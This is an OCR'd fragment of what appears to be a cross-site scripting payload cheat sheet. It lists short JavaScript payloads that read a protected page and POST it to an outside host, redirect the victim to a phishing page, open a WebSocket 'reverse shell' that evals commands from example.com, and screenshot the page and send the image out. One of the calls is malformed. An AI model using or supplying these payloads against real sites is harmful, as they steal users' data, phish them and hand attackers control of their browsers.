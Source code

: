   **Protected Pages**
   ```
       fetch('/page')
         .then((p)=>p.text()
           .then((t)=>
             fetch('https://example.com', {
               method:'POST',
               headers:{
                 'Content-Type':
                   'application/json'
               },
               body:JSON.stringify({p:t})
             }
           )
         )
       )
   ```
   
  **Redirection**
   ```Option1
       window.location = 'https://example.com/phishing-page'
   ```
   
  **Reverse Shell**
   ```Option1
       s=new WebSocket('wss://example.com')
       s.onmessage=(e)=>eval(e.data)
   ```

  **Screenshots**
   ```
       html2canvas(document.body)
         .then((c)=>fetch(
           {
             method: 'POST',
             headers: {
               'Content-Type':'application/json'
             },
             body: JSON.stringify({
               img: c.toDataURL()
             })
           }
                    )
         )
   ```


------------------------------------------------------------------------------------------
------------------------------------------------------------------------------------------
------------------------------------------------------------------------------------------
  

# 4. Headers
